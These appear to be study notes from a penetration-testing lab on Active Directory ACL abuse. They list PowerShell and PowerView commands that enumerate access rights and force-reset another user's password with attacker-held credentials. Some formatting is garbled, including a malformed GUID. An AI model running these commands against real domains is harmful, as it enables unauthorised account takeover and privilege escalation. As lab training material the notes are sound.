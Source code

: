 ##### Used to discover a group of user accounts in a target Windows domain and add the output to a text file (ad_users.txt) from a Windows-based host.

`foreach($line in [System.IO.File]::ReadLines("C:\Users\htb-student\Desktop\ad_users.txt")) {get-acl "AD:\$(Get-ADUser $line)" | Select-Object Path -ExpandProperty Access | Where-Object {$_.IdentityReference -match 'INLANEFREIGHT\\wley'}}	

##### A foreach loop used to retrieve ACL information for each domain user in a target Windows domain by feeding each list of a text file(ad_users.txt) to the Get-ADUser cmdlet, then enumerates access rights of those users. Performed from a Windows-based host.

`$SecPassword = ConvertTo-SecureString '<PASSWORD HERE>' -AsPlainText -Force $Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)	Used to create a PSCredential Object from a Windows-based host.
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force	`
### Used to create a SecureString Object from a Windows-based host.


`Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose`
PowerView tool used to change the password of a specifc user (damundsen) on a target Windows domain from a Windows-based host.

`Get-ADGroup -Identity "Help Desk Level 1" -Properties * | Select -ExpandProperty Members`	

#### Using Get-DomainObjectACL
```shell
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}
```

https://docs.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password


##### Performing a reverse search and ampping to a GUI value

`$guid = "00299570-246d011d0-a768-00aa006e0529"`
```shell
Get-ADObject -SearchBase "CN=Extended-Rights,$((Get-ADRootDSE).ConfigurationNamingContext)" -Filter {ObjectClass -like 'ControllAccessRight'} -Properties * | Select Name,Displayname,DistinguishedName,rightsGuid| ?{$_.rightsGuid -eq $guid} | fl
```
- Very inefficient. use `ResolveGUIDs` flag instead with powerview. 


##### Looking for Interesting access
```shell
$adunnsid = Convert-NameToSid adunn
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $adunnsid} -Verbose
```


